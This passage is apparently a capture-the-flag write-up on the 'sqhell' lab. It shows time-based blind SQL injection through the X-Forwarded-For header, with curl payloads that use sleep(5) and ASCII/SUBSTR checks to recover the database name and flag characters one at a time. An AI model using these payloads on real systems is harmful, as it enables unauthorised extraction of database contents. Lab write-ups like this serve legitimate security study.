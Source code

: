 ### XFF Injection / X-Forwarded-For Injection

A further search on how to exploit XFF for time based SQLi I found lots of articles. [This](https://www.programmersought.com/article/466012852/) is a good one, with plenty of detail and examples. And also [this](https://resources.infosecinstitute.com/topic/sql-injection-http-headers/) one. First let’s try to manually check using curl:

#### Assuming We don't know name of the DB/Schema

I have written a payload that gets the name of the DB utilizing `XFF injection` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is saying if the ascii char of the 1st letter of the "database or schema_name" is 115 ie ("s"), then sleep for 5 seconds.
curl -H "X-Forwarded-For:-1' AND (SELECT sleep(5) FROM information_schema.schemata WHERE (ASCII(SUBSTR(schema_name,1,1))) = '115')-- -" http://sqhell.thm

# or
curl -H "X-Forwarded-For:-1' AND (SELECT sleep(5) FROM information_schema.schemata WHERE (ASCII(SUBSTR(database(),1,1))) = '115')-- -" http://sqhell.thm

# we confirm this is working, we can go on and on and get the other characters.
# db name is.
sqhell_1
```
{% endcode %}

We already know table name and column names are "flag" and "flag".

#### Getting Flag 2

{% code overflow="wrap" %}
```bash
curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,1,1))) = '84'); -- -" http://sqhell.thm
```
{% endcode %}

Here I’m assuming the first character of the flag is T like all the others. 84 is the ASCII value of T, and I’m sending that via the X-Forwarded-For header. The sleep(5) will visibly pause the output for 5 seconds, so we know there was a match if we get a delay.

This worked for the first letter of the flag, let’s do the second one which will be a H:

{% code overflow="wrap" %}
```bash
curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,2,1))) = '72'); --+" http://sqhell.thm
```
{% endcode %}

We test 72 which is the ASCII value of H and again get a five second delay. This tells us we have a match, and like before we can continue on this path to manually work out the flag. Of course that would be incredibly time consuming, so let’s write a script to automate it:
